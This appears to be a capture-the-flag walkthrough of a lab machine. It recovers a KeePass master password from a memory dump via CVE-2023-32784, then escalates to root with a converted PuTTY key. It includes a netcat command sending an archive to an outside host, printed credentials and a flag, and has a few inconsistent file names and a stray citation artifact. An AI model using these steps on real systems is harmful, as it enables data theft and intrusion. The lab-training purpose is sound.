After reviewing the files in the user’s home directory, we discover a ZIP archive. Extracting its contents reveals two files: KeePassDumpFull.dmp and passcodes.kdbx. Files with the .kdbx extension typically correspond to a KeePass password database, which stores credentials in an encrypted format and can be accessed using a master password.
```bash
$ unzip RT3000.zip
```


By searching on Google, we find that a .kdbx file is the encrypted database used by the password manager KeePass Password Safe (primarily version 2) to securely store credentials, usernames, URLs, and attachments. These files are highly encrypted and require a master password to be opened.
With this in mind, we are going to try to see if there are any known vulnerabilities in KeePass.

A quick Google search reveals the following vulnerability, **CVE-2023-32784**, which applies to KeePass versions **2.x prior to v2.54**. It is possible to recover the master password in clear text from a memory dump even when a workspace is locked or no longer running. The memory dump can be a KeePass process dump, a swap file (pagefile.sys), a hibernation file (hiberfil.sys), or a full system RAM dump. The **first character cannot be recovered**. In version 2.54, a different use of the API and/or insertion of a random string was introduced as a mitigation.




As we can see, this ZIP archive also contains a .dmp file (dump file or memory dump file), which records the data stored in RAM when a program or the Windows operating system experiences a critical failure or error. This is exactly what the vulnerability mentioned earlier describes. Therefore, we will download the entire RT30000.zip file to our local machine in order to work with its contents.

To do this, we will set up a listener on our local machine using Netcat in order to receive all the content and store it in a folder named "contenido.zip".
```bash
$ nc -lvnp  443 > comprimido.zip 
```
From the SSH connection we obtained, we will use Netcat to send the resource RT30000.zip to our local IP address.
```bash
$ nc  10.10.16.31 443 < RT30000.zip
```


At this point, we already have all the contents stored locally.



Now it is best to install keepasxc so we can load and analyze the obtained files. To do this, we proceed with the installation process.
```bash
$ wget https://github.com/keepassxreboot/keepassxc/releases/download/2.7.9/KeePassXC-2.7.9-x86_64.AppImage
$ chmod +x KeePassXC-2.7.9-x86_64.AppImage
```



Next, we will try to extract the master password from the memory dump using keepass-dump-masterkey:
```bash
$ git clone https://github.com/CMEPW/keepass-dump-masterkey 
```


```bash
$ cd keepass-dump-masterkey
```


Now we will attempt to use this tool to analyze our .dmp file and extract the master password from the memory dump.
```bash
$  python3 poc.py -d ../KeePassDumpFull.dmp  
```



We have successfully recovered the master password: **rødgrød med fløde**. The characters marked as ● were not fully recovered by the tool, but the pattern was reconstructed as dgr●d med fl●de → dgrød med fløde. This is a Danish dessert.

Now we will open the database using;
```bash
$ cd ~/Desktop/HTB_CTF/Keeper                                         
./KeePassXC-2.7.9-x86_64.AppImage passcodes.kdbx
```


We enter the master password **rødgrød med fløde** (reconstructed as dgrød med fløde) into :contentReference[oaicite:0]{index=0} to unlock the password database.

By successfully unlocking the database and, we have obtained the root credentials.


```bash
User: root
Password: F4><3K0nd!
```
Now wecan try to connect with ssh but this  password doesn't work
```bash
$ ssh root@10.129.229.41
```


If we examine carefully, we can see that there is a RSA private key for the user root associated to putty



So we will save  the  key:
```bash
$ emacs private_key
```


Let's try to transform this key into PEM format to attempt SSH access.

We can now make use of PuTTYgen, a tool designed to create public and private SSH key pairs. It supports different cryptographic methods, including the RSA algorithm. This tool can be used to produce the private SSH key for the root account.

When working with PuTTYgen, the following parameters are used:

- **-O** defines the export format, such as `private-OpenSSH`
- **-o** determines the destination file name for saving the key
```bash
$ sudo apt install putty-tools 
```



Now
```bash
$ puttygen private_key -O private-openssh -o id_rsa
```

```bash
$ cat id_rsa
```


Now we need to change the permissions of the file, then use the private key to login as root.
```bash
$ chmod 600 id_rsa

$ ssh root@10.129.229.41 -i id_rsa
```


Now we can get de root Flag


```bash
Root  Flag  --> a97da0899a0f9a7cf7dd971aebc0df27
```


[Back](README.md)